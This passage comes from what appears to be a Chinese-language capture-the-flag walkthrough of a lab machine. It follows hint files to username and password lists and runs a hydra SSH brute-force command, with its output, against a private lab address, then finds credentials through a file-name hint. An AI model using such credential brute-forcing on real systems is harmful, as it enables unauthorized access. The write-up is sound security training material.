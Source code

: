     _fini
    __data_start
    __gmon_start__
    __dso_handle
    _IO_stdin_used
    __libc_start_main@@GLIBC_2.0
    __libc_csu_init
    _end
    _start
    _fp_hw
    __bss_start
    main
    _Jv_RegisterClasses
    __TMC_END__
    _ITM_registerTMCloneTable
    _init
    
    ```

-   使用提示信息，找到一个新的目录

-   ![image-20230602112520089](https://raw.githubusercontent.com/r0o983/images/main/image-20230602112520089.png)

-   进入`good_luck`目录查看到有一个类似用户名的文件

-   ![image-20230602112646624](https://raw.githubusercontent.com/r0o983/images/main/image-20230602112646624.png)

-   将文件内容保存，查看提示的密码文件夹。并获得密码

-   ![image-20230602112748422](https://raw.githubusercontent.com/r0o983/images/main/image-20230602112748422.png)

-   将文件保存到本地，等待破解

### 使用hydra进行ssh破解

```shell
└─$ hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.2.141
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-02 11:29:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking ssh://192.168.2.141:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-02 11:30:02

```

-   没有得到任何登陆成功的账号或密码，返回页面查看提示。
-   提示当前文件夹中包含密码，尝试使用文件名来进行密码尝试
-   ![image-20230602113405129](https://raw.githubusercontent.com/r0o983/images/main/image-20230602113405129.png)
-   获得一组账号密码：`overflow.  Pass.txt`
